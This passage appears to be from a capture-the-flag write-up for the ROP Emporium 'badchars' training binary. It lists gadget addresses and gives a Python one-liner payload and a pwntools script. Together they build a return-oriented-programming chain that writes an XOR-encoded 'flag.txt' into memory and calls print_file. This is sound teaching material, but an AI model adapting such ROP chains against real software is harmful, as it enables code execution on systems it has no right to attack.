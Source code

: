 | `.data+5`                          | "\x36\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop r15; ret;` | "\xa2\x06\x40\x00\x00\x00\x00\x00"|
| `.data+6`                          | "\x37\x10\x60\x00\x00\x00\x00\x00" |
| `xor byte ptr [r15], r14b; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00"|
| `pop rdi; ret;`                  | "\xa3\x06\x40\x00\x00\x00\x00\x00" |
| `.data`                         | "\x30\x10\x60\x00\x00\x00\x00\x00" |
| `print_file`                     | "\x10\x05\x40\x00\x00\x00\x00\x00" |

```bash
python -c 'print "\x55"*40 + "\x9c\x06\x40\x00\x00\x00\x00\x00" + "\x64\x6E\x63\x65\x2C\x76\x7A\x76" + "\x30\x10\x60\x00\x00\x00\x00\x00" + "\x02\x02\x02\x02\x02\x02\x02\x02" + "\x30\x10\x60\x00\x00\x00\x00\x00" + "\x34\x06\x40\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x31\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x32\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x33\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x34\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x35\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x36\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa2\x06\x40\x00\x00\x00\x00\x00" + "\x37\x10\x60\x00\x00\x00\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa3\x06\x40\x00\x00\x00\x00\x00" + "\x30\x10\x60\x00\x00\x00\x00\x00" + "\x10\x05\x40\x00\x00\x00\x00\x00"' | ./badchars
```

### pwntools

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF("badchars")
io = process(elf.path)

str1 = p64(0x767a762c65636e64) # we should provide it in the reverse endian order
str2 = p64(2)

data_address = p64(0x00601030)
print_file_address = p64(0x00400510)

pop_r12_r13_r14_r15 = p64(0x0040069c)
mov_R13_r12 = p64(0x00400634)
xor_R15_r14b = p64(0x00400628)
pop_rdi = p64(0x004006a3)
pop_r15 = p64(0x004006a2)

payload = b'A'*40
payload += pop_r12_r13_r14_r15
payload += str1
payload += data_address 
payload += str2
payload += data_address 
payload += mov_R13_r12
payload += xor_R15_r14b

for i in range(1,8):
    payload += pop_r15
    payload += p64(0x00601030+i)
    payload += xor_R15_r14b
```

[Split]: https://ropemporium.com/challenge/write4.html